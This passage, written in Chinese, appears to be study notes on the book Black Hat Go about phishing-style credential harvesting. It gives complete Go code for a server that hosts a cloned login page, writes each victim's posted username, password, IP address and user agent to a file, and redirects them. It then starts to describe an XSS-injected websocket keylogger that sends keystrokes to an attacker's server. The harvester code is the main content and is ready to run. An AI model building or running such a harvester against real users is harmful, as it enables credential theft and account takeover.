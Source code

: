 实际上就是钓鱼,核心思想是创建克隆网站,欺骗用户输入它的凭证并记录

blackhat-go里给了一个[示例](https://github.com/blackhat-go/bhg/tree/master/ch-4/credential_harvester)

这里需要将下载下来的public/index.html中的表单action改为"/login"

然后使用golang构建一个简单的http服务器用于窃取凭证

 ```Go
 package main
 
 import (
   "net/http"
   "os"
   "time"
 
   "github.com/gorilla/mux"
   log "github.com/sirupsen/logrus"
 )
 
 func login(w http.ResponseWriter, r *http.Request) {
   log.WithFields(log.Fields{
     "time":       time.Now().String(),
     "username":   r.FormValue("_user"),
     "password":   r.FormValue("_pass"),
     "user-agent": r.UserAgent(),
     "ip_address": r.RemoteAddr,
   }).Info("login attempt")
   http.Redirect(w, r, "/", 302)
 }
 
 func main() {
   fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600)
   if err != nil {
     panic(err)
   }
   defer fh.Close()
   log.SetOutput(fh)
   r := mux.NewRouter()
   r.HandleFunc("/login", login).Methods("POST")
   r.PathPrefix("/").Handler(http.FileServer(http.Dir("./public")))
   log.Fatal(http.ListenAndServe(":8080", r))
 }
 
 ```


这里用到了http.FileServer和http.Dir,配合gorilla/mux,将public目录设置成了web根目录,函数login的作用就是将用户post的内容记录在日志中

### Keylogging With Websocket(使用Websocket的键盘记录器)

攻击场景是自己架设了一个服务器或者某个服务器上存在XSS漏洞,这时可以通过插入某段恶意JS代码,通过Websocket将用户的任何输入发送回攻击者的服务器

首先需要一个测试环境,blackhat-go推荐使用[JSBIN](http://jsbin.com)
